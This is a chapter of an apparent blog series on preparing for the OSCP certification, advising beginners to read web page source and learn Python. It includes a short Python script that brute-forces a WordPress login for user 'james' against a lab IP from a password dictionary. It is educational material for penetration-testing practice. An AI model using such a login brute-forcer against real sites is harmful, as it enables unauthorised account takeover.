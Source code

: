 ```yaml
---
layout: default
---
```

# How to earn your OSCP certification (2024)
## 3. Improve your programming skills

Let's start with a perhaps obvious premise, but one that if not clarified could discourage those approaching the goal of obtaining an OSCP certification (or similar) without coming from other IT sectors.

You don't need to become a full-fledged programmer to work in cybersecurity, but as often happens, having more tools in your arsenal can greatly simplify life when you need to deal with code (often written by others, which isn't always a positive aspect).

So where to begin? As I've often read and heard from professionals much more experienced than me, there's no right starting point when it comes to IT knowledge - every piece learned can prove useful when we least expect it. However, it's also true that some topics are more recurring than others, and perhaps for this reason, they're worth exploring if our background on this subject is a blank page.

Personally, I believe that as an initial step, one of the most useful approaches is understanding how a web page works. Again, for most people reading this chapter, this will all be very simple and basic, but I like to think that even someone completely new to the cybersecurity field can become passionate about it. Moreover, you never know - even those with some experience might pick up nuances less tied to the technical aspect but still interesting from a social engineering perspective.

Let's start gradually, let's open any web page:

![example.com.png](/assets/images/earn-oscp/cap3/example.com.png)

By pressing CTRL+U on the web page, you can examine its code.

```
<!doctype html>
<html>
<head>
    <title>Example Domain</title>

    <meta charset="utf-8" />
    <meta http-equiv="Content-type" content="text/html; charset=utf-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1" />
    <style type="text/css">
    body {
        background-color: #f0f0f2;
        margin: 0;
        padding: 0;
        font-family: -apple-system, system-ui, BlinkMacSystemFont, "Segoe UI", "Open Sans", "Helvetica Neue", Helvetica, Arial, sans-serif;
        
    }
    div {
        width: 600px;
        margin: 5em auto;
        padding: 2em;
        background-color: #fdfdff;
        border-radius: 0.5em;
        box-shadow: 2px 3px 7px 2px rgba(0,0,0,0.02);
    }
    a:link, a:visited {
        color: #38488f;
        text-decoration: none;
    }
    @media (max-width: 700px) {
        div {
            margin: 0 auto;
            width: auto;
        }
    }
    </style>    
</head>

<body>
<div>
    <h1>Example Domain</h1>
    <p>This domain is for use in illustrative examples in documents. You may use this
    domain in literature without prior coordination or asking for permission.</p>
    <p><a href="https://www.iana.org/domains/example">More information...</a></p>
</div>
</body>
</html>
```

Now, the goal of this chapter is not to study or delve deep into the code, but to understand why it's useful to have some basic knowledge. As you can see, the HTML code of the page is divided into TAGS, which are container elements that hold the parts that need to be displayed on the page and assign them certain attributes.

The code section that handles giving specific aesthetic attributes to page elements is the one contained in the <style></style> TAGS, which in this case also specify the language used to draw the page, namely CSS.

Let's divert the discussion for a moment to return to a key point later - for this very simple web page, 46 lines of code are needed. A website is generally composed of multiple HTML pages, dedicated CSS pages, and JavaScript files to dynamically modify the page's behavior based on user interactions. We can easily understand that the number of lines of code increases exponentially as the complexity of the website we're visiting increases.

This is true for web applications that we can access through browsers, as well as for local software we use daily. Personally, I find this site very interesting to get a clear sense of scale for what we're talking about:

<a href="https://informationisbeautiful.net/visualizations/million-lines-of-code/" style="font-size: 18px">Codebases - Millions of lines of code</a>

![2552_Lines_of_code_Dec18_FB.png](/assets/images/earn-oscp/cap3/2552_Lines_of_code_Dec18_FB.png)

This premise is necessary to understand what we're dealing with most of the time when we try to interact with code written by others. The rule suggests that good code should be well-commented, but those who have already dealt with experiences of this type know well that this rarely happens. Being able to navigate through code, for example of a web page, even without understanding in detail what it does, can lead to interesting discoveries of useful information left in the comments by those who wrote it, for example.

The example below is a simple one, but I have encountered situations like this even in actively running applications (you can view the web page code by pressing F12 - browser dev tools are a very useful tool to learn how to leverage).

![example-web-page.png](/assets/images/earn-oscp/cap3/example-web-page.png)

Regarding "classic" software code, it's very useful to start experimenting by getting your hands dirty firsthand. I believe my opinion aligns with the common one, which is to start playing with Python, a rather simple language for learning the basics that could also prove useful in the initial phases of scripting for performing penetration tests. For example, in the case below, I had recently started playing with laboratory machines provided by various dedicated platforms (like Hack the Box, Try Hack Me etc.), and I wanted to experiment by writing a login script for a WordPress page, using a list of hypothetical passwords for the username "james" obtained from previous reconnaissance operations.

```
import requests
import sys

url='http://10.10.110.100:65000/wordpress/wp-login.php'
data={
        'log': 'james',
        'pwd': '',
        'wp-submit': 'Log+In',
        'redirect_to': 'http://10.10.110.100:65000/wordpress/wp-admin/'
        }
i=1

dictionary=open('/home/kali/PenTest/VAPT-DANTE/wordpress_dictionary', 'r')

for line in dictionary:
    data['pwd']=line.strip()
    r=requests.post(url, data=data, allow_redirects=False)
    print("Searching password in dictionary...", str(i), " of 508")
    if r.status_code == 302:
        print(line.strip())
        sys.exit()
    i=i+1
dictionary.close()
```

This is meant to be just an example and, while it's nothing too complex, my advice is to approach the fundamental concepts gradually. There are many books and video tutorials that explain Python basics very well - it won't be difficult to start writing your first lines of code.

<div class="row">
  <div class="column"><a href="/pages/blog/earn-oscp/2-note-taking-method" style="font-size: 18px">Back<< 2. Review Your Note-Taking Method</a></div>
  <div class="column"><a href="/pages/blog/earn-oscp/0-earn-oscp-home" style="font-size: 18px" >Next>> 4. Learn how to write a good report</a><div>
</div>